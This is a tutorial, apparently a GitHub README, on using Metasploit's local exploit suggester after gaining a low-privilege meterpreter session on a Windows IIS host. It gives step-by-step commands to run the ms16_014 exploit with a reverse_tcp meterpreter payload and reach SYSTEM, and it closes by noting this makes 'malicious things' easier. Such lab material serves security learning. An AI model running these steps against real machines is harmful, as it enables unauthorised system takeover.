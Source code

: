 This article will show how we can use Metaspoilt local suggester to get recommendation for privilege escalation after exploiting into the system.
Privilege escalation with Metaspoilt suggester module
### 1.	Scenario
-	The case is that you successfully exploit and get the meterpreter on the machine. However, you are just a normal user on the machine, not admin or system. You can know this by typing in:
getuid
 ![image](https://user-images.githubusercontent.com/112114250/223617857-5f8ea501-738b-4fa0-b663-8709a3d7fc2e.png)

-	This shows that you are just a user that owns the IIS service. 
### 2.	Using suggester module in Metaspoilt
-	In order to use another module after you already have a meterpreter, type in
background
 ![image](https://user-images.githubusercontent.com/112114250/223617894-26e93b5b-4e32-499f-84a1-d58645bc9927.png)

-	This will send the session to the background, so you can use another module
-	There is a module in Metaspoilt that can help us to find post exploitation based on our current session. Type in:
use post/multi/recon/local_exploit_suggester   
show options 
 ![image](https://user-images.githubusercontent.com/112114250/223617924-70823d28-0164-4550-b344-51de4702bcc2.png)

-	Here you will see that we need a session, type in:
sessions
 ![image](https://user-images.githubusercontent.com/112114250/223617935-6948865a-f5fb-4966-8c47-6fcdada61703.png)

-	You will see different sessions, look at the session that you want to do post exploitation and remember the session ID.
-	After that, type in:
set session <Session ID>
run
![image](https://user-images.githubusercontent.com/112114250/223617967-7c4f5945-6cf0-4938-8d03-24c334c71c4d.png)

-	It will run for a while to find some exploits.
 
-	We found some exploits that we can use. We can run through all of them too see which one is valid. In this case, I will choose the ms16_014_wmi_recv_notif. Type in: 
use <the exploit module you want>
show options
 ![image](https://user-images.githubusercontent.com/112114250/223618029-49737fee-4bec-4ece-9312-18311c3c6b30.png)

-	Here we just need the session, type in:
set session <Session ID>
set payload windows/x64/meterpreter/reverse_tcp 
run
 ![image](https://user-images.githubusercontent.com/112114250/223618054-9c2f2e0f-d918-4e78-85ea-2fa5026b1935.png)

-	We get a shell back! Now type in getuid to see who we are.
 ![image](https://user-images.githubusercontent.com/112114250/223618073-1d9bc27a-b642-4254-80d8-dfa3f603a6f5.png)

-	We are system now, so it is easier to do more malicious things.
